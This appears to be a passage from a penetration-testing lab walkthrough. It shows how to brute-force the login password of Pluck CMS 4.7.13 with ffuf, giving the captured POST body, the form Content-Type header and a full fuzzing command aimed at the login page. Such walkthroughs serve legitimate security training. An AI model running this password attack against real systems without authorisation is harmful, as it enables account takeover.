 <figure><img src=".gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

### Important : We retrieved the body for making a brute-force POST attack on this page

```
cont1=test&bogus=&submit=Log+in
```

{% hint style="info" %}
Import to remember to use the correct Content-Type header when doing a Brute-force for POST request.


{% endhint %}

```
Content-Type: application/x-www-form-urlencoded
```

Now let's build our terminal command for brute-forcing the password. Let's use ffuf in POST mode with our header and data. We will set the FUZZ keyword at the value of test that we previously gathered\
Let's use a wordlist with only 1 value "test" to check for incorrect page size.

{% code overflow="wrap" %}
```sh
ffuf -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "cont1=FUZZ&bogus=&submit=Log+in" -w <WORDLIST> -u http://<IP>/app/pluck-4.7.13/login.php
```
{% endcode %}

Replace IP and Wordlist with your values
